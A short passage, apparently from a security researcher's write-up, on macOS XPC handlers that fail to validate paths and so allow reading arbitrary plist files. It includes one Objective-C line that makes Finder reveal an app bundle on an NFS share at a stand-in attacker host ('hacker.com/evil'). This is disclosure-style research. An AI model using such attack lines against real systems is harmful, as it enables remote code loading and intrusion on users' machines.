 ![](/img/RJ8kSNnzMUOHag9Gg73w2g.png)

`_HIS_XPC_CFPreferencesCopyValue` does not validate the path at all so you can read arbitrary plist file. This guided me to discover a real long standing CoreFoundation bug. 

As for the `HIS_XPC_RevealFileInFinder` you can locate arbitrary file url in Finder app. I noticed that I can just specify a NFS share (`/net/hostname/blah`) like this:

```objc
xpc_object_t url = _CFXPCCreateXPCObjectFromCFObject(CFURLCreateWithString(kCFAllocatorDefault, CFSTR("file:///net/hacker.com/evil/share/Dash.app"), NULL));
```
